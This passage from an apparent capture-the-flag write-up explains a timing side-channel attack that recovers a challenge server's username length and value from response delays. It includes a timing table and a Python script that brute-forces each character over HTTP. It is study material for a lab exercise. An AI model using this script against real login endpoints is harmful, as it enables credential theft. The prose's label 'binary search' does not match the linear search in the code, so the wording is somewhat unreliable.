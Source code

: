 ```
16 0.010032
17 0.011412
18 0.010872
19 0.011442
```

From this, we can see that there is a substantial amount of time incurred for length of 10. While comparing with the other timings, it is quite apparent.

As such, we can make use of this basis for enumerating the length of our username and password.

But we need to do this sequentially meaning
```
Find length of username => Find username value => Find password length => Find password value.
```

So,  let's do it sequentially and since we now have the username length, we can take at code again,
![](images/Pasted%20image%2020221206125104.png)

This time we can focus on the code section denoted by (2). In this part of the code, for each of the character in our provided username, it is checked from left to right, whether it matches the current actual password character in the server. And if it matches, it continues checking and incurring additional sleeps each time.

As such, we can perform a binary search due to how the vulnerable functionality provides us with a "pseudo-conditional" check - i.e. less time vs more time, false vs true.

And with that, we can craft the following code snippet that helps us to automate the binary search
```
username = ""
for idx in range(len(username), userlen):
    highestTimeChar = ""
    currHigh = 0.0
    for i in string.ascii_letters + string.digits:
        padding = (userlen - idx - 1) * "A"
        url = f"http://{target}/flag?username={username}{i}{padding}&password=111"
        r = requests.get(url)
        if currHigh < r.elapsed.total_seconds():
            currHigh = r.elapsed.total_seconds()
            highestTimeChar = i
        print(url, i,r.elapsed.total_seconds())
    username += highestTimeChar
print("Username is " + username)
```
